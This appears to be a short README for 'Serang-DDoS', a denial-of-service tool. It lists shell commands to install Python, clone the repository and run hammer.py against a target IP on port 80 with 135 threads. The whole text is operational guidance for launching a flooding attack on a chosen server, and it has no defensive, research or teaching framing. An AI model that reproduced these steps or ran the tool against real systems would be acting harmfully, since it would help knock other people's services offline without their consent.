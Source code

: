 # Serang-DDoS
```
$ apt update && apt upgrade 
```
```
$ apt install python && apt install python2 
```
```
$ git clone https://github.com/rifai-rizqi3/Serang-DDoS
```
```
$ ls 
```
```
$ cd Serang-DDoS 
```
```
$ python hammer.py 
```
```
$ python3 hammer.py -s (IP target) -p (80) -t (135)
```